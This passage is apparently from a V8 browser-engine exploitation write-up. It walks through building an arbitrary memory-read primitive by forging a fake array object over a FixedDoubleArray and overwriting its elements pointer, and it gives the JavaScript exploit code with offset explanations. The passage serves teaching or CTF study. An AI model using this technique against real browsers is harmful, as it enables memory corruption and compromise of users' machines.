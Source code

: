 HOWEVER - this is not quite right! We want `fake` to point at the first element of the `FixedDoubleArray` `elements`, so we need an offset of 0x20 bytes back (doubles are 8 bytes of space each, and we know from before that `elements` is just ahead of the `JSArray` itself in memory), so it looks like this:

```javascript
function arb_read(addr) {
    // tag pointer
    if (addr % 2n == 0)
        addr += 1n;

    // place a fake object over the elements FixedDoubleArray of the valid array
    // we know the elements array is placed just ahead in memory, so with a length
    // of 4 it's an offset of 4 * 0x8 = 0x20 
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
}
```

Now we want to access `arb_rw_arr[2]` to overwrite the fake `elements` pointer in the fake array. We want to set this to the desired RW address `addr`, but again we need an offset! This time it's 0x10 bytes, because the first index is 0x10 bytes from the start of the object as the first 8 bytes are a map and the second 8 are the `length` smi:

```javascript
// overwrite `elements` field of fake array with address
// we must subtract 0x10 as there are two 64-bit values
// initially with the map and a size smi, so 0x10 offset
arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
```

And finally we return the leak. Putting it all together:

```javascript
// array for access to arbitrary memory addresses
var arb_rw_arr = [map_float, 1.5, 2.5, 3.5];
console.log("[+] Address of Arbitrary RW Array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // tag pointer
    if (addr % 2n == 0)
        addr += 1n;

    // place a fake object over the elements FixedDoubleArray of the valid array
    // we know the elements array is placed just ahead in memory, so with a length
    // of 4 it's an offset of 4 * 0x8 = 0x20 
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // overwrite `elements` field of fake array with address
    // we must subtract 0x10 as there are two 64-bit values
    // initially with the map and a size smi, so 0x10 offset
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // index 0 will returns the arbitrary read value
    return ftoi(fake[0]);
}
```

